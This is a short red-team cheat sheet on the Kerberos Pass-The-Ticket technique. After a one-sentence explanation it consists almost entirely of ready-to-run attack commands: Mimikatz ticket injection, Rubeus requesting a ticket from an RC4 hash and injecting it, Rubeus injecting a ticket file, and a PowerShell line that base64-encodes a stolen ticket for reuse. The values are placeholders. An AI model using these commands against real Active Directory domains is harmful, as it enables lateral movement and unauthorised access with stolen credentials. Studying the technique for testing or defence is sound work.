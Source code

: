 # Pass The Ticket

## <mark style="color:yellow;">About</mark>

<mark style="color:green;">**Pass-The-Ticket**</mark> in contrast of <mark style="color:green;">**Pass-The-Hash**</mark> and <mark style="color:green;">**Overpass-The-Hash**</mark> use a ticket to gain access to the TGS and then for service.

## <mark style="color:yellow;">Mimikatz</mark>

```
kerberos::ptt "C:\Users\v17\Desktop\Mimikatz\[0;7f830]-5-2-43f10000-v17@krbtgt-amogus.kek.kirbi"
```

## <mark style="color:yellow;">Rubeus</mark>

### <mark style="color:blue;">Using Hash</mark>

```
Rubeus.exe asktgt /domain:amogus.kek /user:v17 /rc4:1293uo1uwfoi1hw081 /ptt
```

Unlike command for <mark style="color:green;">**Overpass-The-Hash**</mark>, here we are using <mark style="color:red;">**/ptt**</mark> to do both <mark style="color:green;">**Overpass-The-Hash**</mark> and <mark style="color:green;">**Pass-The-Ticket**</mark> simultaneously. But that only works if we give <mark style="color:red;">**/hash**</mark>: instead of ticket

### <mark style="color:blue;">Using Ticket</mark>

```powershell
Rubeus.exe ptt /ticket:[0;7f830]-5-2-43f10000-v17@krbtgt-amogus.kek.kirbi
```

### <mark style="color:blue;">Using Encoded Ticket</mark>

```powershell
[Convert]::ToBase64String([IO.File]::ReadAllBytes("[0;7f830]-5-2-43f10000-v17@krbtgt-amogus.kek.kirbi"))
```

```powershell
Rubeus.exe ptt /ticket:LETSIMAGINETHISISOURBASE64ENCODEDKERBEROSTICKET
```
